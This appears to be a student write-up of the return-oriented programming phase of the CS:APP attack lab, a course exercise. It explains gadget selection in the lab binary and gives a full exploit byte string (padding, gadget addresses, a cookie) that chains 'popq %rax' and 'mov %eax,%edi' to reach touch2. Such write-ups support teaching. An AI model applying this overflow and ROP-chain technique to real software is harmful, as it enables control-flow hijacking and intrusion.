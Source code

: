 ![Setting up sequence of gadgets for execution. Byte value 0xc3 encodes the ret instruction.](res/rop-stack.png)
A gadget can make use of code corresponding to assembly-language statements generated by the compiler, especially ones at the ends of functions. In practice, there may be some useful gadgets of this form, but not enough to implement many important operations. For example, it is highly unlikely that a compiled function would have popq %rdi as its last instruction before ret. Fortunately, with a byte-oriented instruction set, such as x86-64, a gadget can often be found by extracting patterns from other parts of the instruction byte sequence.

As for our attack, we need to devise a method to load `cookie` to `%rdi` then 'return' to `touch2`.  
The data can be encoded in the stack. To load it, we need the help of `pop` instruction.  
In address `0x401898+3` in `setval_242`, we found an `58` which alone means `popq %rax`, followed by `90 90 c3` which is `nop nop retq`, do nothing and return.  
So we can 'return' to this address by buffer overflow, encoding our `cookie` in the higher 8 bytes.  
Next, load our `cookie` into parameter register `%rdi`.  
From address `0x40189f+3`, we find `89 c7 c3`, which means `mov %eax,%edi` and then return. Up to now, we've got all the gadgets we need.

Encode our gadgets into exploit hex.

```txt
/* 56 bytes of padding buffer */
33 33 33 33 33 33 33 23
66 66 66 66 66 66 66 66
49 20 6c 6f 76 65 20 49
43 53 2c 20 62 75 74 20
49 43 53 20 64 6f 6e 27
74 20 6c 6f 76 65 20 6d
65 2e 2e 2e 3a 2d 28 00
/* gadget code */  
9b 18 40 00 00 00 00 00 /* 0x401898+3 popq %rax ..nop.. */
17 fc 0d 11 00 00 00 00 /* cookie to pop */
a2 18 40 00 00 00 00 00 /* 0x40189f+3 mov %eax,%edi */
1b 17 40 00 00 00 00 00 /* call touch2 */
```
